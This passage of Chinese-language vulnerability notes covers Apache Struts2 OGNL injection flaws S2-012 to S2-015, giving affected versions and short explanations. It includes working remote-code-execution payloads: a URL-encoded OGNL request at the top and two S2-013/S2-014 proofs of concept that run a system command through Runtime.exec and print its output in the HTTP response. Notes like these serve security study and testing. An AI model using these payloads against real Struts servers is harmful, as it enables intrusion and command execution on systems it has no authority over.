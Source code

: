 ```java
age=4923&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23writer.println(%23d),%23writer.close())(bla)&z[(name)(%27bla%27)]
```

## s2-012

[参考](https://www.jianshu.com/p/cde51192616e)

影响版本：2.1.0 - 2.3.13

在 action 配置中的 `result` 中使用 `redirect` 类型时，如果使用了变量，如 `${param}`，那么在重定向时会对 `param` 进行 OGNL 表达式解析。

可以直接使用 s2-001 的 PoC。

## s2-013 | s2-014

[参考](https://xz.aliyun.com/t/2694)

影响版本：2.0.0 - 2.3.14.1

struts2 的 `<s:a>` 和 `<s:url>` 都有一个 `includeParams` 属性，可以设置为：

1. `none` - URL 中不包含任何参数（默认）
2. `get` - 仅包含 URL 中的 GET 参数
3. `all` - 在 URL 中包含 GET 和 POST 参数，此时 GET 和 POST 参数都在 query string 中

最后一种情况下解析参数时，会导致 OGNL 表达式执行，造成代码执行。

存在两种 PoC：

```java
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}
```

```java
${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

s2-013 的修复仅仅限制了 `${(#exp)}` 格式的 PoC 执行，然而 `${exp}` 格式同样可以执行。这导致了 s2-014 的产生。

> 上面的 `$` 都可以换成 `%`。

## s2-015

[参考](https://www.jianshu.com/p/14a0fa48fed0)

影响版本：2.0.0 - 2.3.14.2

在 action 中配置了 `name="*"` ，且 `result` 中含有变量时，如 `{1}.jsp` ，那么 `{}` 中的内容会被当作 OGNL 表达式解析。遗憾的是这种情况下无法使用 `"`,`/`,`\` 等特殊字符。
